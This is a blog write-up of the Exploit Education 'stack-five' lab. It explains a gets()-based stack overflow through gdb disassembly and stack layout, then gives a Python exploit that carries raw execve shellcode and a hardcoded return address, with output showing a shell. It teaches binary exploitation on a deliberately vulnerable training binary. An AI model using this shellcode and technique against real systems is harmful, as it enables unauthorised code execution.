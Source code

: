 ```yaml
---
layout: post
title: Stack Five Writeup (Code Execution) - Exploit Education Lab Exercise
categories: [security, binary-exploit, reverse-engineering, friday-gems]
tags: [security, binary-exploitation, friday-gems]
description: A comprehensive writeup that helps to understand Stack Five exercise stack-overflow vulnerability with learning resources.
---
```


### Previous Writeup: 

1. [Stack Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/12/exploit-education-stack-zero-exercise-writeup.html)
2. [Stack One Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/20/exploit-education-stack-one-exercise-writeup.html)
3. [Stack Two Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/26/exploit-education-stack-two-exercise-writeup.html)
4. [Stack Three Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/27/exploit-education-stack-three-exercise-writeup.html)
5. [Stack Four Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/28/exploit-education-stack-four-exercise-writeup.html)

If you're learning and writing binary exploits, I would strongly recommend you to take [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/) course by `Xeno Kovah`. They cover a wide variety of learning assembly instructions which will be really helpful to understand the exploits.

If you haven't done setting-up your lab, feel free to check out my previous article on [Exploit.education lab setup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/06/exploit-education-lab-setup.html)

### Quick Overview

Similar to Stack Four, Stack Five exercise motives are smashing the stack, overwrite return address (`$rsp`) and redirect the program to execute shellcode. Similar to previous stack post series, `gets` function is utilized which can pave way to overflow and execute shellcode (code execution) in the context of binary.

### Disassemble

Disassembling the code will get you overall idea behind the stack-five code, One can use `gdb ./stack-five` to start debugging it in runtime.

1. `gdb ./stack-five`
2. Type `disassemble main` to get the disassembled code (assembly)

```assembly
   0x00000000004005a4 <+0>:     push   rbp
   0x00000000004005a5 <+1>:     mov    rbp,rsp
   0x00000000004005a8 <+4>:     sub    rsp,0x10
   0x00000000004005ac <+8>:     mov    DWORD PTR [rbp-0x4],edi
   0x00000000004005af <+11>:    mov    QWORD PTR [rbp-0x10],rsi
   0x00000000004005b3 <+15>:    mov    edi,0x400620
   0x00000000004005b8 <+20>:    call   0x400400 <puts@plt>
   0x00000000004005bd <+25>:    mov    eax,0x0
   0x00000000004005c2 <+30>:    call   0x40058d <start_level>
   0x00000000004005c7 <+35>:    mov    eax,0x0
   0x00000000004005cc <+40>:    leave
   0x00000000004005cd <+41>:    ret
```

`> disassemble start_level`

```assembly
   0x000000000040058d <+0>:     push   rbp
   0x000000000040058e <+1>:     mov    rbp,rsp
   0x0000000000400591 <+4>:     add    rsp,0xffffffffffffff80
   0x0000000000400595 <+8>:     lea    rax,[rbp-0x80]
   0x0000000000400599 <+12>:    mov    rdi,rax
   0x000000000040059c <+15>:    call   0x4003f0 <gets@plt>
   0x00000000004005a1 <+20>:    nop
   0x00000000004005a2 <+21>:    leave
   0x00000000004005a3 <+22>:    ret
```

Before taking a look at the code, if you disassembled the stack-five using gdb to view the assembly instruction, you may notice the puts, start_level and gets function calls with parameters. So basically when you hit `r` in gdb without breakpoint,

1. Greet with `Welcome to phoenix/stack-five, brought to you by https://exploit.education` message via Puts (aka printf) method
3. Invokes `start_level` function `0x4005c2`
4. Accepts user input via `gets` method with `buffer` memory address.
5. The program automatically exits from `main` method returning back to invoker.

### Primary Goal

The primary goal of this exercise is to make you overwrite the return address stack in `start_level` redirect to `shellcode` and gain code execution. If you remember from previous writeups, the next instruction (return address) as `$rsp` stack pointer stays in stack and consumed by `$rip` register aka instruction pointer.

![Illustration of Stack Five exploit](/assets/media/stack-five-stack-overflow.png)

### Memory Allocation

As you see that the `buffer` variable isn't dynamically allocated, they are allocated in the stack frame same as `start_level` function gets executes. The main function starts executing my pushing `$rbp` to stack at `0x7fffffffe660` and then `rsp` to `$rbp-0x10` (`0x7fffffffe648`) as expected the stack grows from top (higher memory address) to bottom (lower memory address). 

![Stack Memory Layout from $rbp till $rsp](/assets/media/exploit-education-phoenix-stack-five-rbp.jpg)

You can see that `buffer` (64 bytes) gets written at `$rbp-0x80` i.e `0x7fffffff45c0` and `$rbp` register (8 bytes) at `rbp-0x10` i.e `0x7fffffffe648`. Now that you got the overall idea of the memory layout of the stack, you can now go ahead blow up the stack to overwrite `$rsp` aka stack pointer stored in stack. If you play around with these memory layout behaviour, you can note that the char `buffer` variable writes from `$rbp-0x80` towards `$rbp-0x10` i.e `0x7fffffffe648`.

<sup> *check `Trial and Error section` to learn about why address slightly differs while executing in gdb vs seperate program invoked from shell</sup>

### Exploit

As we know that `gets` function prone to stack/buffer overflow based on context, We're about to carefully plan the exploit and plant the shellcode within the buffer and overwrite `$rbp` base pointer, `$rsp` stack pointer and redirect the program to shellcode address. Unlike real word scenario such as `ASLR - Address Layout Randomization` and other preventions in place, We now get a chance to hardcode the `buffer` address which 💯% static in this environment. Let's now visit the malicious buffer construction,

1. Initialize the buffer with `NOP` instructions `0x90` for safety
2. Place the exact shellcode 
3. Fill the buffer with remaining character (`0x41` - A) i.e (size of buffer) minus (above filled character length)
4. Overwrite the `$rbp` with 8 characters (say 8 bytes)
5. Time to overwrite the `$rsp` with actual buffer start address i.e `0x7fffffff45f0`

So, here goes the exploit buffer generated with python code,

```python
# Initial Padding with NOP instruction
buf = "\x90" * 30 
# Actual SHELL Code
buf += "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
# Remaining padding 
buf += "A" * (128 - len(buf)) 
# Overwrite $rbp (base pointer)
buf += 'BBBBBBBB'
# Overwrite $rsp (consumed by $rip - instruction pointer) 
buf += '\xf0\xe5\xff\xff\xff\x7f' 
# Finally print and redirect this ouput to stack-five binary
print buf 
```

### Result

`> (python $HOME/stack-five.py; cat) | /opt/phoenix/amd64/stack-five`

```shell
user@phoenix-amd64:/opt/phoenix/amd64$ (python $HOME/stack-five.py; cat) | /opt/phoenix/amd64/stack-five
Welcome to phoenix/stack-five, brought to you by https://exploit.education
id
uid=1000(user) gid=1000(user) euid=405(phoenix-amd64-stack-five) egid=405(phoenix-amd64-stack-five) groups=405(phoenix-amd64-stack-five),27(sudo),1000(user)
whoami
phoenix-amd64-stack-five
```

There you go! 🎉 You've officially `pwned` the `binary` and possibly you could control the program flow and may 
eventually perform remote code execution in the system. 🪲



### Trial & Errors

I'm including this trial and error section to learn more about debugging and failures I came across while solving this problem,

1. #### Why does address differs in `GDB` vs while executing from shell?

   The answer boils down to the environment variables that are automatically being set by `gdb` such as `LINES` & `COLUMNS`. So, when the environment variables are added to the program the stack gets pushed down and thus address varies.

   - #### How do I fix this and simulate similar to real world program execution?

      1. Simply use `unset env LINES` & `unset env COLUMNS` commands to reset environment variables in `gdb`
      2. Use mature tools like `pwntools` - [python library](https://github.com/Gallopsled/pwntools) which helps write exploits and hooks to gdb automatically upon execution.

2. #### My exploit successfully invokes shell (/bin/dash) but doesn't ouput any results or terminates abruptly?

   That's probably because you haven't included the output redirection to your exploit script after invoking shell. For instance `Generated Shell Code; Cat` cat command can help in redirecting the output of the shell commands and wait listening like interactive mode. Check `Results` section for the exact exploit code and appended command.

3. #### My stack-five exploit works in `GDB` but not in terminal ?

   This is due to address padding by environment variables in `gdb`. Check Answer #1 for detailed explanation.

4. #### Where do you get the Shell Code for x86 Arch ?

   This one is actually trial and error, You can get the shellcode based on your arch (x86, x64) in [shell-storm](https://shell-storm.org/shellcode/index.html)

### Source and Reference:

1. Stack Five Exercise: [Exploit Education](https://exploit.education/phoenix/stack-five/)
2. [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/)

![buffer-overflow-meme](/assets/media/buffer-overflow-meme-2.jfif)

### Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
